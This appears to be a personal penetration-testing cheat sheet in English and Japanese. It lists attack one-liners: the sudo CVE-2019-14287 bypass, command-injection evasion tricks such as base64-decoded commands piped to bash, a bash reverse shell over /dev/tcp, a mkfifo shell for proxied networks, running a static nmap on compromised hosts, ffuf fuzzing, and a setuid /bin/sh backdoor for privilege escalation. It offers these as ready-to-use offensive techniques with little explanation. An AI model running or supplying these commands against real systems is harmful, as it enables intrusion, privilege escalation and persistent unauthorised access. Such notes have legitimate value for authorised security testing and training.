   - SUDO
    - secure_path cannot be modified
    - CVE-2019-14287 
      - < sudo 1.8.28
      - ALL=(ALL,!root) /bin/something
      - sudo -u#-1 /bin/something
    
  - write to a read only configure file
    - mv read_only_file my_file
    - echo 'new file' > read_only_file
    
  - ssh
    - /etc/motd ... execute by root
    - if /usr/local is writable, allways success privsec
    - ssh-keygen -y -e -f private.key > public.key
    
  - os command injection
    - sleep
    - ping
    - $((1+2))
    - bash -c 'some codes'
    - check comment tout
      - special_chars command ; command; #
    - echo -n 'code' | base64 -w0 | base64 -d | bash
    - {echo,test}
    - echo$IFS"test"
    - system関数内の改行(system("id\nj/bin/sh"))
    - bash -i >& /dev/tcp/127.0.0.1/4444  0>&1
      - redirect stdout, stderr, stdin to a socket
      - ">&" redirect stdout, stderr to a socket, "0>&1" redirect stdin to stdout(a socket).
    - mkfifo /tmp/input; tail -f /tmp/input | bash 2>&1 > /tmp/output;
      - プロキシなどが間に存在し、リバースシェルが利用できないシーンで活用可能
      
      - 次のコマンドでポートが開放されているか、確認が可能
      
        ```consoel
        echo > /dev/tcp/127.0.0.1/900 && echo UP || echo Down
        ```
    - [fstatic compile nmap](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
      - 侵入したホストでnmapが必要になった時、使用する
    
  - file transfer
    - nginxの場合、webdavを可能とするにはdav_methods PUT;のように設定
    
  - fuzzing([ffuf](https://github.com/ffuf/ffuf))
  
    - ffuf -u http://example.com/test?param=FUZZ -w /opt/SecLists/Fuzzing/special-chars.txt -mc all
    - try comment out characters
      - for example, rua's comment out characters are --
      - ffuf -u http://example.com/test?param=FUZZ-- -w /opt/SecLists/Fuzzing/special-chars.txt -mc all
    
  - shell (privsec)
    - chmod +s /bin/sh
      - sh -p
    